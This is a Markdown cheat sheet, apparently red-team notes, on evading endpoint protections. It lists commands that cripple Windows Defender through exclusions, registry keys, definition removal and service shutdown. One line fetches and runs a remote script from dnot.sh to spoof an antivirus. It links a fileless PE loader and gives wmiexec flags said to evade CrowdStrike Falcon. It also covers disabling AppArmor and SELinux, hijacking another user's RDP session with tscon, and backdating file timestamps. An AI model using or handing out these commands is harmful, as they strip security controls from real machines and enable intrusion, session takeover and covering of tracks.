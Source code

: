 ## Dealing with System Protections

**Defender**
- If we're local admin, we can just add an exclusion:
  - `Add-MpPreference -ExclusionPath "{path_to_excluded_folder}"`
- We can spoof another antivirus with DefendNot
  - `& ([ScriptBlock]::Create((irm https://dnot.sh/))) --name "{custom_AV_name}"`
  - This does give a red defender icon, however
- Permanently disable with:
  - `reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f`
  - `gpedit.msc` > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enabled
  - Just run all of these in powershell and defender should be lobotomized by the end:
    - `'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All`
    - `Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisableBlockAtFirstSeen $true -DisablePrivacyMode $true -SignatureDisableUpdateOnStartupWithoutEngine $true -DisableArchiveScanning $true -MAPSReporting 0 -SubmitSamplesConsent 2`
      - This needs to be run before restarting (and in doing so disabling modifications of defender)
    - `Remove-WindowsFeature Windows-Defender`
    - `Stop-Service WinDefend -Force`
    - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Type DWord -Force`
    - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager" -Name "AllowAntivirus" -Value 0 -Type DWord`
    - Then reboot
- Bypassing with FilelessPELoader:
  - `https://github.com/SaadAhla/FilelessPELoader`

**CS Falcon**
- Seems `wmiexec` with `-silentcommand` and `-nooutput` seems to work with CS Falcon enabled

**AppArmor**
- `sudo systemctl stop apparmor`, `sudo systemctl disable apparmor`, `sudo apt purge apparmor`

**SELinux**
- Status with `sestatus`
- Temp disable: `sudo setenforce 0` or `sudo setenforce permissive`
- Permanent disable: set `SELINUX=enforcing` to `disabled` in `/etc/selinux/config` and reboot

## Misc
- Windows:
  - Shutdown: `shutdown /s /t 0`
  - Reboot: `shutdown /r /t 0`
  - See who's got an RDP session: `query user` or `query session`
    - Hijack it with `tscon.exe {target_id} /dest:rdp-tcp#{our_rdp_session_number}`
  - Logoff user:
    - `query session` and `logoff {id}` to log off a specific user
  - Powershell save path: `(Get-PSReadlineOption).HistorySavePath`
  - Get processes: `ps`
    - Kill a process: `taskkill /pid {id_from_ps} /f`
  - Search results of a command: `| FINDSTR /NI "{string}"`
    - `/N` gets line number, `/I` ignores case
- Linux:
  - `reboot` to restart
  - `who` to see who's on a system
    - `pkill -t {result}` to then kill their session
  - `pkill -KILL -u {user}` - kill all of a user's processes
  - `kill -9 {pid}` to kill a specific process
- Set date: `touch -d "4 May 2024"`


